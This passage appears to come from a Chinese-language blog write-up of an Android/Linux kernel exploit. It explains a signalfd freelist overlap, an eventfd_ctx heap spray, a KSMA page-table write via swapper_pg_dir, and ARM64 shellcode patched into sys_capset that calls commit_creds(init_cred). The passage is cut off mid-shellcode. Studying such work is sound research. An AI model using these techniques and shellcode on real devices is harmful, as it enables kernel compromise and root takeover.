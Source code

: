 ```
		if (!ctx)
			return -ENOMEM;

		ctx->sigmask = sigmask;
        [...]

```

sigdelsetmask(&sigmask, sigmask(SIGKILL) | sigmask(SIGSTOP));signotset(&sigmask); 会导致在我们的值上 | 40100，因而我们不直接写上 swapper_pg_dir 地址，否则不会 malloc 到上面去, 因为地址变成了（swapper_pg_dir | 0x40100）  
![](https://img-blog.csdnimg.cn/7d68a7822d814763a61ca59c6fb9e576.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAMjAwMDBz,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

对此，作者想了别的方法

, 有点复杂

首先找了一个足够大的完全用 0 填充的内核内存区域（| 0x40100）还在其中，作者在这里选择了 ipa_testbus_mem ，0x198000 大小的缓冲区，利用被重叠的 signalfd 覆盖 free 的对象，修改 freelist 为

ipa_testbus_mem | 0x40100, 所以下次分配的地址为 ipa_testbus_mem | 0x40100

![](https://img-blog.csdnimg.cn/25674b9e0d42428697492b791e5ec749.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAMjAwMDBz,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

```
struct eventfd_ctx {
    struct kref kref;
    wait_queue_head_t wqh;
    /*
     * Every time that a write(2) is performed on an eventfd, the
     * value of the __u64 being written is added to "count" and a
     * wakeup is performed on "wqh". A read(2) will return the "count"
     * value to userspace, and will reset "count" to zero. The kernel
     * side eventfd_signal() also, adds to the "count" counter and
     * issue a wakeup.
     */
    __u64 count;
    unsigned int flags;
};

```

之后使用 eventfd_ctx 来堆喷，eventfd_ctx 的 count 我们是可以写入任意值 ，偏移为 0x20, 向 count 写入（swapper_pg_dir+ 0x1e0 *8）COUNT+0XB5F00 也就是我们需要填入 block descriptor 的地址

![](https://img-blog.csdnimg.cn/249e7be5efdb4ad7972b77d6866a511b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAMjAwMDBz,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

接着 free 掉所有的 eventfd, 重新利用重叠的 signalfd 设置 freelist 为 ipa_testbus_mem | 0x40100 + 0x20(count 的位置)，接着再次喷射 signalfd , 并写入 `0x00e8000080000751`，由此 ksma 攻击完成，我们可以修改任意 kernel code 和 kernel data 了

### 提权

这一步，是想怎么来就怎么来了，作者在这里 patch 掉 capset, 将它改为如下 shell code

```
uint64_t sys_capset_addr = base + 0x80000 + SYS_CAPSET;
uint64_t init_cred_addr = kaslr_leak + INIT_CRED;
uint64_t commit_creds_addr = kaslr_leak + COMMIT_CREDS;

uint32_t shellcode[] = {
    // commit_creds(init_cred)
    0x58000040, // ldr x0, .+8
    0x14000003, // b   .+12
    LO_DWORD(init_cred_addr),
    HI_DWORD(init_cred_addr),
    0x58000041, // ldr x1, .+8
    0x14000003, // b   .+12
    LO_DWORD(commit_creds_addr),
```